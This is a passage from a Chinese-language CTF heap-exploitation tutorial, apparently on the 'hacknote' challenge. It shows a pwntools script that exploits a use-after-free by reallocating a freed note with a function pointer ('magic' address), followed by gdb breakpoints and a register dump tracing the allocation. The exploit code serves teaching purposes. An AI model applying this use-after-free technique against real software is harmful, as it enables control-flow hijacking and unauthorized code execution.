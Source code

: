 ```python
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))


def printnote(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


#gdb.attach(r)
magic = 0x08048986

addnote(32, "aaaa") # add note 0
addnote(32, "ddaa") # add note 1

delnote(0) # delete note 0
delnote(1) # delete note 1

addnote(8, p32(magic)) # add note 2

printnote(0) # print note 0

r.interactive()
```

我們可以具體看一下執行的流程，首先先下斷點

**兩處malloc下斷點**

```shell
gef➤  b *0x0804875C
Breakpoint 1 at 0x804875c
gef➤  b *0x080486CA
Breakpoint 2 at 0x80486ca
```

**兩處free下斷點**

```shell
gef➤  b *0x08048893
Breakpoint 3 at 0x8048893
gef➤  b *0x080488A9
Breakpoint 4 at 0x80488a9
```

然後繼續執行程序，可以看出申請note0時，所申請到的內存塊地址爲0x0804b008。（eax存儲函數返回值）

```asm
$eax   : 0x0804b008  →  0x00000000
$ebx   : 0x00000000
$ecx   : 0xf7fac780  →  0x00000000
$edx   : 0x0804b008  →  0x00000000
$esp   : 0xffffcf10  →  0x00000008
$ebp   : 0xffffcf48  →  0xffffcf68  →  0x00000000
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xf7fac000  →  0x001b1db0
$eip   : 0x080486cf  →  <add_note+89> add esp, 0x10
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
```